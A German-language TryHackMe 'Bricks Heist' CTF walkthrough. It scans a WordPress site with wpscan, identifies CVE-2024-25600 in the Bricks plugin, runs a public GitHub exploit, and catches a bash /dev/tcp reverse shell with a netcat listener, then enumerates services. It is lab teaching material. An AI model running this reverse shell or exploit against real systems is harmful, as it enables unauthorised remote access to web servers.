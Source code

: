 
# TryHackMe: Bricks Heist

## 1. Vorbereitung
```bash
gem install wpscan
```
- Installiert **wpscan** auf der AttackBox.

```bash
wpscan --url https://bricks.thm/ --disable-tls-checks
```
- Scannt die Zielseite nach Sicherheitslücken.
  - Erkennt: **Bricks 1.9 CVE-2024-25600** (WordPress Bricks Plugin)

---

## 2. Reverse Shell vorbereiten
```bash
nc -lvnp 4444
```
- Startet einen Netcat Listener auf Port 4444.

```bash
bash -c 'exec bash -i &>/dev/tcp/IP/4444 <&1'
```
- Reverse Shell vom Server (Nutzer: **apache**) zur eigenen Box.

---

## 3. Exploit ausführen

**Exploit-Script herunterladen:**
- GitHub-Link:  
  [https://github.com/nak000/CVE-2024-25600-WordPress-Bricks](https://github.com/nak000/CVE-2024-25600-WordPress-Bricks)

**Abhängigkeiten installieren:**
```bash
pip install requests beautifulsoup4 prompt_toolkit
```

**Exploit ausführen:**
```bash
python3 exploit.py -u https://bricks.thm/
```

---

## 4. Post-Exploitation

```bash
cat 650c844110baced87e1606453b93f22a.txt
```
- Anzeige des Flags oder einer versteckten Datei im Webverzeichnis.

```bash
systemctl | grep running
```
- Auflistung aller aktuell **laufenden Systemdienste**.

```bash
systemctl cat ubuntu.service
```
- Zeigt die Konfiguration des Dienstes `ubuntu.service`.

```bash
cd /lib/NetworkManager/
```
- Wechsel in das Verzeichnis eines verdächtigen Dienstes.
